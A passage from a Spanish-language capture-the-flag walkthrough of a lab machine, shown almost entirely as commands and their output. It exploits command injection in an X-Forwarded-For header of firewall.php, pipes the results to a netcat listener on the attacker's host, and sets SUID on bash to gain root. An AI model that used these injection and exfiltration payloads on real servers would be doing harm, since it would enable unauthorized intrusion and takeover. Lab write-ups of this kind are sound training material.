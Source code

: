 ```bash
#MAQUINA ATACANTE
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:24:26.921917 IP 10.129.96.75 > 10.10.14.34: ICMP echo request, id 1, seq 1, length 64
17:24:26.921945 IP 10.10.14.34 > 10.129.96.75: ICMP echo reply, id 1, seq 1, length 64
```

Esta vez ejecutaremos un `whoami` para saber ante qué usuario nos encontramos

```bash
#MAQUINA VICTIMA
uhc@union:/var/www/html$ curl -s -X GET http://localhost/firewall.php -H "X-FORWARDED-FOR: 1.1.1.1; whoami | nc 10.10.14.34 443;" -H "Cookie: PHPSESSID=eitt0r81tmnh7pqlhai5hfvuuu"
```

```bash
#MAQUINA ATACANTE
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.129.96.75] 54992
www-data
```

Listamos privilegios de sudoers del usuario `www-data`

```bash
#MAQUINA VICTIMA
uhc@union:/var/www/html$ curl -s -X GET http://localhost/firewall.php -H "X-FORWARDED-FOR: 1.1.1.1; sudo -l | nc 10.10.14.34 443;" -H "Cookie: PHPSESSID=eitt0r81tmnh7pqlhai5hfvuuu"
```

```bash
#MAQUINA ATACANTE
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.129.96.75] 54998
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

Como el usuario `www-data` puede ejecutar todo con privilegio de sudo procedemos a asignar privilegio SUID a la bash

```bash
#MAQUINA VICTIMA
uhc@union:/var/www/html$ curl -s -X GET http://localhost/firewall.php -H "X-FORWARDED-FOR: 1.1.1.1;sudo chmod u+s /bin/bash | nc 10.10.14.34 443;" -H "Cookie: PHPSESSID=eitt0r81tmnh7pqlhai5hfvuuu"
```

Ya sólo nos queda acceder a una bash con privilegio de root mediante el comando `bash -p`. La flag la encontramos en el directorio de root
